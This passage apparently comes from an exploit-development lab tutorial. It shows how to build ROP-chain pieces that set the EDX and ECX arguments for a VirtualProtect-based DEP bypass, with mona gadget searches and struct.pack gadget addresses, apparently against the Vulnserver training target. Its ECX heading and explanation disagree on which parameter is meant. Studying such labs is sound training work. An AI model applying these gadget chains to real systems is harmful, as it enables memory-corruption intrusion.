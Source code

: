 **How we calculated it**: Using negation to avoid null bytes:
1. Load EAX with 0xffffffc0 (value to negate, will become 0x00000040)
2. Negate EAX to get 0x40
3. Exchange EAX and EDX

**How we found these gadgets**:
```
!py mona find -type instr -s "pop eax" -m "kernelbase" -cpb "\x00"
!py mona find -type instr -s "neg eax" -m "kernel32" -cpb "\x00"
!py mona find -type instr -s "xchg eax, edx" -m "ntdll" -cpb "\x00"
```

**Alternative Options**:
1. **Direct POP**:
```python
edx = struct.pack("<I", 0x77e4b949)  # pop edx; ret
edx += struct.pack("<I", 0x00000040)  # PAGE_EXECUTE_READWRITE
```

2. **Arithmetic with other constants**:
```python
edx = struct.pack("<I", 0x77cef70e)  # xor eax, eax; ret
edx += struct.pack("<I", 0x775a5f04)  # add eax, 0x20; ret
edx += struct.pack("<I", 0x775a5f04)  # add eax, 0x20; ret
edx += struct.pack("<I", 0x77d9e6c0)  # xchg eax, edx; ret
```

### 6.4 Setting up ECX (lpAddress parameter)

```python
ecx = struct.pack("<I", 0x775f94ee)  # POP ECX # RETN [msvcrt.dll]
ecx += struct.pack("<I", 0x7653a3c1)  # &Writable location [KERNEL32.DLL]
```

**Current Value**: 0x7653a3c1 (Writable memory address in KERNEL32.DLL)
**Reason**: This register needs to hold the pointer to a writable memory location (lpflOldProtect parameter) where VirtualProtect can store the old memory protection flags.

**How we found it**: We identified a suitable writable address within KERNEL32.DLL's .data in Section 5.

**How we found the gadget**:

```
!py mona find -type instr -s "pop ecx # ret" -m "msvcrt" -cpb "\x00"
```

**Alternative Options**:

1. **Using essfunc.dll's writable memory**:
```python
ecx = struct.pack("<I", 0x775f94ee)  # pop ecx; ret
ecx += struct.pack("<I", 0x62506228)  # Writable memory in essfunc.dll
```

2. **Stack Address**:
```python
# Use the current ESP value plus an offset
ecx = struct.pack("<I", 0x77c3f1a4)  # mov ecx, esp; add ecx, 0x10; ret
```
Stack Address (More complex): Technique exist to calculate and use an address on the stack itself, but require careful offset management.
